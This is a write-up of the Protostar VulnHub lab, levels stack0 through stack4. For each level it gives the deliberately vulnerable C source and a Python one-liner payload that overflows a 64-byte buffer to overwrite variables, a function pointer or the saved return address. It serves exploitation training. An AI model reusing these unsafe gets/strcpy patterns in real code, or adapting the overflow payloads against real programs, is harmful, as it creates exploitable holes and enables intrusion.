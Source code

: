 ```yaml
---
title: "Writeup: protostar (stack 0 - stack 4)"
date: 2020-12-30T21:12:45+08:00
draft: false
---
```


Protostar is a virtual machine which introduces the following in a friendly way: network programming, byte order, handling sockets, stack overflows, format strings, and heap overflows. It is available at [VulnHub](https://www.vulnhub.com/). 

<br>

## Stack 0

Here is some information of the executable /opt/protostar/bin/stack0. 

![](https://github.com/chuang76/image/blob/master/protostar/p0-1.PNG?raw=true)

The source code is provided as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);

    if(modified != 0) {
    	printf("you have changed the 'modified' variable\n");
    } else {
    	printf("Try again?\n");
    }
}
```

So our goal is to modify an integer, just need to cover the value of buffer (64 bytes) and overwrite the value of modified (4 bytes). 

```
$ python -c "print('a' * 68)" | ./stack0
```

![](https://github.com/chuang76/image/blob/master/protostar/p0-3.PNG?raw=true)

<br>

## Stack 1

Some information of the executable /opt/protostar/bin/stack1. 

![](https://github.com/chuang76/image/blob/master/protostar/p1-1.PNG?raw=true)

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
    	errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
    	printf("you have correctly got the variable to the right value\n");
    } else {
    	printf("Try again, you got 0x%08x\n", modified);
    }
}
```

Our goal is to make the integer modified equal to 0x61626364. Note that the byte order is little-endian in the system. So the payload is

![](https://github.com/chuang76/image/blob/master/protostar/p1-2.PNG?raw=true)

or you can use \xAB notion to express the hexadecimal character. 

```
$ ./stack1 `python -c "print('a' * 64 + '\x64\x63\x62\x61')"`
```

![](https://github.com/chuang76/image/blob/master/protostar/p1-3.PNG?raw=true)

<br>

## Stack 2

Here is the information of the executable /opt/protostar/bin/stack2. 

![](https://github.com/chuang76/image/blob/master/protostar/p2-1.PNG?raw=true)

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char *variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
    	errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
    	printf("you have correctly modified the variable\n");
    } else {
    	printf("Try again, you got 0x%08x\n", modified);
    }
}
```

Since the value of buffer is copied from the environment variable which we can control, let's exploit the program with the environment variable GREENIE. Similarly, the value of modified should be overwritten as \x0a\x0d\x0a\x0d. 

```
$ GREENIE=`python -c "print('a' * 64 + '\x0a\x0d\x0a\x0d')"` ./stack2
```

![](https://github.com/chuang76/image/blob/master/protostar/p2-2.PNG?raw=true)

<br>

## Stack 3

Here is the information of the executable /opt/protostar/bin/stack3. 

![](https://github.com/chuang76/image/blob/master/protostar/p3-1.PNG?raw=true)

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
	printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
    	printf("calling function pointer, jumping to 0x%08x\n", fp);
    	fp();
    }
}
```

We can use objdump command to figure out the address of the function win(). 

```
$ objdump -M intel -d stack3
```

![](https://github.com/chuang76/image/blob/master/protostar/p3-2.PNG?raw=true)

Here is the payload. 

```
$ python -c "print('a' * 64 + '\x24\x84\x04\x08')"` | ./stack3
```

![](https://github.com/chuang76/image/blob/master/protostar/p3-3.PNG?raw=true)

<br>

## Stack 4

Here is the information of the executable /opt/protostar/bin/stack4.

![](https://github.com/chuang76/image/blob/master/protostar/p4-1.PNG?raw=true) 

The source code is available as follows. 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
	printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

Again, use objdump command to find out the address of the target function, i.e., 0x080483f4. 

![](https://github.com/chuang76/image/blob/master/protostar/p4-2.PNG?raw=true)

Next, let's figure out how many bytes should be covered before the return address. Set a break point at calling gets() function.

![](https://github.com/chuang76/image/blob/master/protostar/p4-6.PNG?raw=true)

As you can see, eax is stored as the start address of buffer (0xbffffca0) while current ebp is stored as (0xbffffce8). So we need to cover 0xbffffce8 - 0xbffffca0 + 4 (the size of ebp) = 76 bytes. 

![](https://github.com/chuang76/image/blob/master/protostar/p4-7.PNG?raw=true)

Here is the payload. 

```
$ python -c "print('a' * 76 + '\xf4\x83\x04\x08')"` | ./stack4
```

![](https://github.com/chuang76/image/blob/master/protostar/p4-5.PNG?raw=true)